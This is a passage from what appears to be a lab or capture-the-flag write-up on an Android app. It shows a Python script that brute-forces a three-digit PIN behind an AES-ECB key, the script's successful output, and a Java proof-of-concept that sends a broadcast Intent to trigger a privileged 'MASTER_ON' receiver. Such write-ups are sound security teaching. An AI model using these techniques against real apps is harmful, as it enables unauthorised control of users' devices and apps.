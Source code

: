 ```python
    ciphertext = base64.b64decode(cipherTxT)  
    
    for pin in range(0,1000):
        real_pins = num_gen()
        key = generate_key(real_pins[pin])
        cipher = AES.new(key, AES.MODE_ECB)
        
        try:
            decrypted = cipher.decrypt(ciphertext)
            decrypted = unpad(decrypted, AES.block_size)
            decrypted_str = decrypted.decode('utf-8')

            if decrypted_str == plaintext:
                print(f"\nSUCCESS! Found PIN: {pin:03d}")
                print(f"Decrypted text: '{decrypted_str}'")
                print(f"Key used: {key.hex()}")
                return pin
        except Exception as e:
            continue  
        
    print("\nNo matching PIN found")
    return None
            

if __name__ == "__main__":
    found_pin = decrypt(cipherTxT, PlainTxT)

    if found_pin is not None:
        print("YaY")
```

i created the code so that if the pin changes to like 5 digits it will only need small edits and in the future i can add multi threading to speed things up 

**AND guess what !**
```txt
SUCCESS! Found PIN: 345
Decrypted text: 'master_on'
Key used: 33343500000000000000000000000000
YaY
```

now what was i doing again ????  oh yeah back to the receiver

so i will try to send broadcast with
- pin = 345
- action = `MASTER_ON`

*(FYI i forgot since this a dynamically registered receiver i wont need to specify class and package .... since the  class name used didn't even exist .... and yes i did this lab at like 3am and i need to sleep )*

And since we don't need to specify class we can just fire our Poc and see what happens 
```java
Intent intent = new Intent();  
intent.setAction("MASTER_ON");  
intent.putExtra("key", 345);  
  
sendBroadcast(intent);
```
